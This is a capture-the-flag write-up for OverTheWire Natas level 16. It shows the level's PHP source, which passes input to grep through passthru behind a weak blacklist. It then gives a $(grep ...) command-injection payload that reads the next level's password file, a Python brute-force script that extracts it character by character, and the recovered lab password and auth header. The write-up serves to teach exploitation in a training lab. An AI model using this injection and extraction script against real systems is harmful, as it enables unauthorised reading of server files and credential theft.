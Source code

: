 ```yaml
---
layout: post
title: "Natas Level16 - Level17"
date: 2015-10-02 21:06:47
image: '/assets/img/'
description:
tags: Natas CTF
categories: Natas
twitter_text:
---
```

Natas 16 looks similar to the earlier challenges where we were got to search for a word in a flat document. However this time it says "For security reasons, we now filter even more on certain characters":

![Natas 16 search](/assets/img/screenshots/Natas_level16-1.png)

Lets open up the source and see what the difference is:

{% highlight html %}
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "<censored>" };</script></head>
<body>
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
{% endhighlight %}

Here is the regular expression that filters out the words:


    /[;|&`\'"]/


Basically any of the following characters are now disallowed: ; | & ' \ ' "

So any of our previous strings will not work. I remembered that you can execute commands within a string in bash by adding a: $(<<COMMANDHERE>>). My idea was to run the following code:

{% highlight bash %}
$(grep ^A /etc/natas_webpass/natas17)
{% endhighlight %}

If we run that and the first character is "A" the entire password will be returned. If "A" does not exist, an empty string will be returned. However, this won't work because even if we guess the correct letter grep will return the password and search for the password in the dictionary which does not exist. If we find a word that exists in the dictionary, we would be able to utilize the fact that grep returns an empty string when the letter is not found. Lets first find a word we can use, I just searched for the letter "a":

![Natas 16 search for a](/assets/img/screenshots/Natas_level16-2.png)

I'll use the word "African" and that would mean our query string will look something like:

{% highlight bash %}
$(grep ^A /etc/natas_webpass/natas17)African
{% endhighlight %}

Next I'll use the Burp Intruder to see if we can get just the first letter:

![Natas 16 search](/assets/img/screenshots/Natas_level16-3.png)

Looks like we got a hit! Now lets use a script. I'll copy most of it from the last challenge:

{% highlight python %}
import urllib
import urllib2
import pprint

url = 'http://natas16.natas.labs.overthewire.org/'
referrer = 'natas15.natas.labs.overthewire.org'
authorization = 'Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA=='

Chars = ['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r',
's','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','J','K','L',
'M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5',
'6','7','8','9']

password = ""

#loop through possible length of password
for i in range(1, 33):
    print "%d out of 32" % (i)
    #loop through possible chars
    for j in range(0,len(Chars)):
        grep = '$(grep ^%s /etc/natas_webpass/natas17)African' % (password + Chars[j])
        values = {'needle' : grep,'submit' : 'Search'}
        req = urllib2.Request(url)
        req.add_data(urllib.urlencode(values))
        req.add_header('Referrer', referrer)
        req.add_header('Authorization', authorization)
        try:
            response = urllib2.urlopen(req)
            the_page = response.read()
            #print the_page
        except HTTPError, e:
            print e.reason
        if "African" not in the_page:
            password+=Chars[j]
            print password
            break
{% endhighlight %}

After that's done we get the following output:
    1 out of 32
    8
    2 out of 32
    8P
    3 out of 32
    8Ps
    4 out of 32
    ....
    27 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhP
    28 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPk
    29 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq
    30 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9
    31 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c
    32 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

